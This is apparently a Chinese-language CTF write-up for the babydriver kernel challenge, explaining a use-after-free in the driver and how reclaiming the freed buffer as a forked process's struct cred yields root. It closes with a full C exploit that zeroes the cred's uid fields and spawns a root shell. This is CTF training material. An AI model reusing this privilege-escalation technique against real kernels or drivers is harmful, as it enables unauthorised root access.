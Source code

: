 ```yaml
---
title: kernel_uaf
date: 2022-02-13 00:09:12
permalink: /pages/def829/
categories:
  - ctf_wp
  - kernel
tags:
  - 
---
```

# kernel uaf 

[[toc]]

## 分析

解包得到babydriver.ko文件，

这里其实有点奇怪，关于驱动文件我们要明白，他是常驻内核态的， 我们的程序打开这个文件描述符和读写关闭等操作会转入到这个驱动对应的函数内，我们编写用户态程序进行操作，其实是类似于我们直接去调用这些函数的。其中对应关系， 

> 具体的关系一般要查看 data段的 file_operations， 这里说下一般遇到的常见命名方式。

* open("driver_name", flag) => Xopen 
* Write => Xwrite 
* read => Xread 
* Ioctl => Xioctl
* close(fd) => Xrelease 

然后载入和卸载驱动会自动调用 `init` `exit`两个函数。

## 漏洞

简单分析几个函数， 发现这个驱动主要使用了一个`babydevice_t`结构体， 其中保存起点和长度，

![image-20220213151649156](https://s2.loli.net/2022/02/13/ZxOEAaYkSBt9yRz.png)

可以通过read和write进行读写， 

通过ioctl可以实现重设大小， 

![image-20220213151737140](https://s2.loli.net/2022/02/13/I9YRsoZdtf1TDij.png)

每次open都会设置下这个全局变量。

![image-20220213151824489](https://s2.loli.net/2022/02/13/WZIm2Ytsze8hS5T.png)

close的时候将这个buf free掉， 但是没有清除全局变量，存在一个uaf 

> 我们可以同时打开两次， 两次共享这个全局变量， 其中一个关闭的时候，通过另一个就可以实现uaf的操作

![image-20220213151904695](https://s2.loli.net/2022/02/13/Lw1KCZlEjTPxSQO.png)

## 利用

uaf的利用思路就是堆块再次使用，进行复写。 

### struct cred 

这里介绍一个提权手段，linux下进程的权限管理是通过cred结构体实现的，定义如下：

```c
// include/linux/cred.h
/*
 * The security context of a task
 *
 * The parts of the context break down into two categories:
 *
 *  (1) The objective context of a task.  These parts are used when some other
 *      task is attempting to affect this one.
 *
 *  (2) The subjective context.  These details are used when the task is acting
 *      upon another object, be that a file, a task, a key or whatever.
 *
 * Note that some members of this structure belong to both categories - the
 * LSM security pointer for instance.
 *
 * A task has two security pointers.  task->real_cred points to the objective
 * context that defines that task's actual details.  The objective part of this
 * context is used whenever that task is acted upon.
 *
 * task->cred points to the subjective context that defines the details of how
 * that task is going to act upon another object.  This may be overridden
 * temporarily to point to another security context, but normally points to the
 * same context as task->real_cred.
 */
struct cred {
        atomic_t        usage;
#ifdef CONFIG_DEBUG_CREDENTIALS
        atomic_t        subscribers;    /* number of processes subscribed */
        void            *put_addr;
        unsigned        magic;
#define CRED_MAGIC      0x43736564
#define CRED_MAGIC_DEAD 0x44656144
#endif
        kuid_t          uid;            /* real UID of the task */
        kgid_t          gid;            /* real GID of the task */
        kuid_t          suid;           /* saved UID of the task */
        kgid_t          sgid;           /* saved GID of the task */
        kuid_t          euid;           /* effective UID of the task */
        kgid_t          egid;           /* effective GID of the task */
        kuid_t          fsuid;          /* UID for VFS ops */
        kgid_t          fsgid;          /* GID for VFS ops */
        unsigned        securebits;     /* SUID-less security management */
        kernel_cap_t    cap_inheritable; /* caps our children can inherit */
        kernel_cap_t    cap_permitted;  /* caps we're permitted */
        kernel_cap_t    cap_effective;  /* caps we can actually use */
        kernel_cap_t    cap_bset;       /* capability bounding set */
        kernel_cap_t    cap_ambient;    /* Ambient capability set */
#ifdef CONFIG_KEYS
        unsigned char   jit_keyring;    /* default keyring to attach requested
                                         * keys to */
        struct key __rcu *session_keyring; /* keyring inherited over fork */
        struct key      *process_keyring; /* keyring private to this process */
        struct key      *thread_keyring; /* keyring private to this thread */
        struct key      *request_key_auth; /* assumed request_key authority */
#endif
#ifdef CONFIG_SECURITY
        void            *security;      /* subjective LSM security */
#endif
        struct user_struct *user;       /* real user ID subscription */
        struct user_namespace *user_ns; /* user_ns the caps and keyrings are relative to. */
        struct group_info *group_info;  /* supplementary groups for euid/fsgid */
        struct rcu_head rcu;            /* RCU deletion hook */
};
```

其中uid和gid是当前使用的， suid/sgid其实是为了可能存在的uid-euid gid-egid互换准备的缓存位置，在信号 ipc共享内存等位置校验的其实是euid/egid， fuid/fgid是为了文件访问准备的，但是一般会随着euid/egid更改， 而且在其他的unix实现中其实这个访问校验也是通过euid/egid实现的。

其实linux下所有程序都是通过父进程fork得来的，因此也形成了一个进程树结构，fork是从父进程产生新进程出来， 其中这个新进程的权限控制的cred结构体生成的调用链如下：

```
kernel/fork.c: _do_fork
	-> copy_process 
		-> kernel/cred.c: copy_cred
			-> prepare_cred
```

然后我们确定下 在对应版本 4.4.7， 这个结构体的大小和偏移量：

![image-20220213145544095](https://s2.loli.net/2022/02/13/ajKYQFVwfovxhSX.png)

![image-20220213160815926](https://s2.loli.net/2022/02/13/QUuTv4gb2P5lAqa.png)

因为要修改euid和egid， 我们计算下到fsuid的距离。

![image-20220213160922647](https://s2.loli.net/2022/02/13/phuLzkwqHfIxtO6.png)

### uaf利用

首先open两次，通过ioctl修改chunk大小，使其和 cred结构体大小相同，

然后close一个让其free， 可以通过fd2实现uaf， 

进行fork， 这时候会创建相关的结构体， 其中就包含cred， 这时候应该会在uaf的buf得到这个结构体, 

> 0x3e8就是1000， 即普通用户权限的uid

![image-20220213161326854](https://s2.loli.net/2022/02/13/UA1jyEmt4CwzuxW.png)

然后我们直接使用write可以修改这个内存，将其前0x1c个大小修改为0， 即从uid到euid全部设为0， 即root权限

![image-20220213161456476](/Users/wlz/Library/Application%20Support/typora-user-images/image-20220213161456476.png)

此时子进程已经拿到了root权限，

![image-20220213161520985](https://s2.loli.net/2022/02/13/ABxztEuwio8Orhj.png)



### exp

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>

int main(){
    int fd1 = open("/dev/babydev", O_RDWR);
    if (fd1 < 0){
        printf("open fd1 error\n");
        exit(-1);
    }
    printf("open 1 success!\n");
    int fd2 = open("/dev/babydev", O_RDWR);
    if (fd2 < 0){
        printf("open fd2 error\n");
        exit(-1);
    }
    printf("open 2 success!\n");

    ioctl(fd1, 0x10001, 0xa8);
    printf("set struct cred size\n");

    close(fd1);
    printf("close fd1, free 0xa8\n");

    if (fork() == 0){
        printf("fork!");
        int size = 0x1c;
        char buf[size];
        memset(buf, 0, size);
        write(fd2, buf, size);
        printf("write !");
        if (getuid() == 0){
            system("/bin/sh");
        }
        return 0;
    } else {
        printf("hello world\n");
         waitpid(-1, NULL, 0);
    }
    return 0;
}
```

